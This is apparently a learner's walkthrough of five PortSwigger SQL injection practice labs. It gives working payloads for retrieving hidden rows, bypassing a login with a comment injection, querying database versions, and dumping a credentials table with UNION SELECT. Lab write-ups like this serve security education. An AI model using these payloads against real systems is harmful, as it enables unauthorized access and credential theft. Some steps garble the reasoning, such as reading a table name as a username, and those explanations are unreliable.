 https://portswigger.net/web-security/all-labs#sql-injection

# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following: 

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products. 

Step-1 : Acccess the Lab
Step-2 : When the lab page opes it shows different shopping options
Step-3 : In our question it says the hidden data with WHERE clause
Step-4 : Analysis the Where clause with changing the value on the URl
         For Example, 
```URL 
https://0a6f00a603c0f4cf80b2c17c00be00ea.web-security-academy.net/filter?category=Pets

https://0a6f00a603c0f4cf80b2c17c00be00ea.web-security-academy.net/filter?category=''

https://0a6f00a603c0f4cf80b2c17c00be00ea.web-security-academy.net/filter?category='--

https://0a6f00a603c0f4cf80b2c17c00be00ea.web-security-academy.net/filter?category='1=1--

https://0a6f00a603c0f4cf80b2c17c00be00ea.web-security-academy.net/filter?category='or 1=1 --

```

Step-5 : In this link we get some shopping options which are hidden 
```url
 https://0a6f00a603c0f4cf80b2c17c00be00ea.web-security-academy.net/filter?category='or 1=1 -- 

```
Step-6 : When we find the hidden data then our will finishes.

# Lab: SQL injection vulnerability allowing login bypass

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. 

Step-1 : Access the lab (Same for all labs)
Step-2 : open My Account to login
Step-3 : Analysis 
         SELECT name FROM users WHERE Username='administrator' 
         
(Because in the question there ia hit "logs in to the application as the administrator user")

Password can be anything 'cause we are ignoring it..

now do the analysis based on the Username like

            Username=administrator'
            Username=administrator''
                 ..   ..   
                 ..   ..  
                 ..   ..  
                 ..   ..  
            Username=administrator'--

Step-4 : In the " Username=administrator'-- " we will the successful login.


# Lab: SQL injection attack, querying the database type and version on Oracle

 This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. 

Step-1 : Access the lab 
Step-2 : Open the Burp Browser and copy the link of the lab paste it in the browser
Step-3 : On the interceptor then click on the Lifestyle on the Browser
Step-4 : Now we will the response in the Burp Suite send that to the repeator
Step-5 : In the very 1st line keep this content type this ..

```https
GET /filter?category=Lifestyle+'UNION+SELECT+BANNER,NULL+FROM+v$version-- HTTP/2
```
Then send the request and observe the chenges, there you see that the lab is solved.

# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. 

Step-1 : Access the lab and open the BurpSuite
Step-2 : Open the lab link in Burp Browser
Step-3 : On the Intercept
Step-4 : Get the data and send to repeator
Step-5 : In the very 1st line keep this content type this ..

```https
GET /filter?category=Gifts'UNION+SELECT+@@version,+NULL# HTTP/2
```
Then send the request and observe the chenges, there you see that the lab is solved.


# Lab: SQL injection attack, listing the database contents on non-Oracle databases

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user. 

Step-1 : Access the lab and open the BurpSuite
Step-2 : Open the lab link in Burp Browser
Step-3 : On the Intercept
Step-4 : Get the data and send to repeator
Step-5 : In the very 1st line keep this content type this ..

```https
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```
Step-6 : Send the request you will get the information based on the tables in the html format
Step-7 : Check for user_name in the information. Our username wiil be like " users_edupci "
         Hence, the username is " edupci "
Step-8 : Now we need to get the password. So, type..

```https
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_edupci'--
```

Step-9 : When we send the request we will get the information there we can see the new User_name and password.
            
            username_bauhrs
            password_woqpwf
Step-10 : When you got the password and the username then we need to enter the below content

```http
'+UNION+SELECT+password_woqpwf,+username_bauhrs+FROM+users_edupci--
```

Step-11 : Now send the request we will get the response. In that response we can see the password and the username to login to the account or to complete the lab
         The Username = administrator
         The password = ydjg5c79qc4t797yihrq

Step-13 : Well will successfully completed the lab.

